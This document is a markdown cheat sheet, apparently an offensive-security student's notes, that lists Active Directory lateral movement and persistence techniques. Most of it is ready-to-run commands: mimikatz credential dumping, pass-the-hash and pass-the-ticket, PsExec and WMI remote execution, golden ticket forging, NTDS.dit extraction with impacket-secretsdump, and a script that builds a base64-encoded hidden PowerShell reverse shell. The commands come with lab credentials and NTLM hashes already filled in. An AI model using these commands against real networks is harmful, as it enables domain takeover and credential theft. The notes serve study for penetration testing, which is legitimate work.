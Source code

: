 # AD Lateral Movement Techniques
- all mimikatz run this : ``` privilege::debug ``` to do sussy thing
- spawn cmd inside mimikatz : ``` misc::cmd ```
- Some Ticket may req admin right to access (read)
## WMI 
- Remote Procedure Calls (port 135)
- Req target host credential & that user admininistrator local group in target
- deprecated in realworld
- not restricted by UAC remote restriction for non-domain joined machines 
- Works in cmd & pwsh
### Cmd 
- Dont have direct output 
- Launch calculator remotely  ``` wmic /node:192.168.50.73 /user:jen /password:Nexus123! process call create "calc" ```
### Powershell
1. Prep credential object
    ``` 
        $username = 'jen'; // modify this
        $password = 'Nexus123!'; // modify this
        $secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
        $credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
    ```
2. Prep Cim Session
   ```
        $options = New-CimSessionOption -Protocol DCOM
        $session = New-Cimsession -ComputerName 192.168.50.73 -Credential $credential -SessionOption $Options // modify ip to new victim ip
        $command = 'calc';  // modify this to any rev shell or command
    ```
3. Prep Powershell Base64 Rev Shell
   ``` 
        import sys
        import base64

        payload = {reference https://www.revshells.com/ PowerShell #2 starting from "client....}

        cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()

        print(cmd)
    ```
4. Run CIM
    ``` 
        Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};
    ``` 

## WinRM
- WS-Management Protocol (xml messages w/ http&https)
- port 5986
- Req Administrators or Remote Management Users Group on target host
### Cmd
- Have output
- ``` winrs -r:files04 -u:jen -p:Nexus123!  "cmd /c hostname & whoami" ``` 

### Powershell
1. Prep credential object
    ``` 
        $username = 'jen'; // modify this
        $password = 'Nexus123!'; // modify this
        $secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
        $credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
    ```
2. Start session 
   ``` 
    New-PSSession -ComputerName {Target IP} -Credential $credential
    Enter-PSSession 1 // no need nc
   ```

## PsExec
- Require ADMIN$ share in SMB
- Require that user is admin local group of that machine
- Require file & printer sharing turned on
1. Exec ``` ./PsExec64.exe -i  \\FILES04 -u corp\jen -p Nexus123! cmd ```

## Pass the hash
- With NTLM authN services only | Kerberos authN NOT WORK!!
- Abuse SMB again
- Run in kali ``` /usr/bin/impacket-wmiexec -hashes :2892D26CDF84D7A70E2EB3B9F05C425E Administrator@{Target ip} ```

## Overpass the hash
- Passing NTLM generated ticket (TGT) for Kerberos service | Not for NTLM services!!!
1. Run as different user for any exe e.g. notepad (shift right click)
2. Get NTLM ``` mimi> sekurlsa::logonpasswords ``` 
3. Spawn shell of that user``` sekurlsa::pth /user:jen /domain:corp.com /ntlm:369def79d8372408bf6e93364cc93075 /run:powershell ```
4. Turn NTLM to Kerberos ticket by generating when access netw share ``` net use \\files04 ```
5. Check the ticket ``` klist ```
6. Spawn shell in victim ``` .\PsExec.exe \\files04 cmd ```

## Pass the ticket
- Passing NTLM ticket to get TGS for Kerberos service | Not for NTLM services!!! 
- More flexibility (TGS > TGT)
1. Export all TGT/TGS from memory ``` mimi> sekurlsa::tickets /export ```
2. Find all ticket and select the one we want ``` pwsh> dir *.kirbi ``` (remember same directory as mimikatz.exe) 
   - our target have record in Group 2 - T... G... S...
   - e.g. ```[0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi ``` means dave = the user we want to impersnate and web04 is domain name
3. Inject to klist ``` kerberos::ptt {that kirbi file}```
4. Run as admin shell & access the service

## DCOM
- Distributed Component Object Model & abusing Microsoft Management Console COM app
- Old tech
- Port 135 RPC
- Req local admin
1. Prepare DCOM obj``` $dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","192.168.177.72")) ```
2. Execute ``` $dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"{commands e.g. rev shell}","7") ``` (can edit to other shell)

# AD Persistence
## Golden Ticket
- Create self-made custom TGT
- Create a TGT stating that a non-privileged user is a member of the Domain Admins group
-  krbtgt account password is not automatically changed
-  Require krbtgt password (NTLM hashed)
1. dump the list if have kerberos pwd ``` lsadump::lsa /patch ``` Get domain id here (S-1-5-xxxxx) & NTLM hash of krbtgt
2. remove all existing tickets ``` kerberos::purge ``` 
3. Gen golden ticket ``` kerberos::golden /user:jen /domain:corp.com /sid:{domain} /krbtgt:{krbtgt ntlm hash} /ptt ```
4. Run psexec to lateral movement ``` ./PsExec.exe \\dc1 cmd.exe ```

## Shadow Copies
- Abusing Microsoft backup tech: Volume Shadow Service (Which backup AD database)
- Req Admin in Domain controller
- Start in Domain Controller (with CMD):
  1. Query all shadow copies ``` vshadow.exe -nw -p  C: ``` (Get the shadow copy device name for step 2)
  2. Copy the ntds.dit to DC directory``` copy {shadow copy device name}\windows\ntds\ntds.dit c:\ntds.dit.bak ```
  3. Save to system hive ``` reg.exe save hklm\system c:\system.bak ```
  4. Copy the 2 files to kali (ntds.dit.bak & system.bak)
  5. Use Kali : ``` impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL ``` 
  6. (Optional) Can use pass the hash to get shell 


# How distinguish NLTM vs Kerberos service?
1. Use tools like Mimikatz to dump the cached credentials and look for Kerberos tickets.
2. Check the type of tickets being used when accessing a service. For example, if you see TGTs (Ticket Granting Tickets) or TGSs (Ticket Granting Services), it indicates Kerberos authentication.
3. if you have NTLM hashes and are accessing services using NTLM authentication, it's likely that NTLM is being used.

## Same machine lateral movement with Domain Controller
1. Get SPN list
2. Get ticket of the service account / user that you want to move to
   ```
    Add-Type -AssemblyName System.IdentityModel
    New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList '{SPN}'
    ```
3. Kerberoast 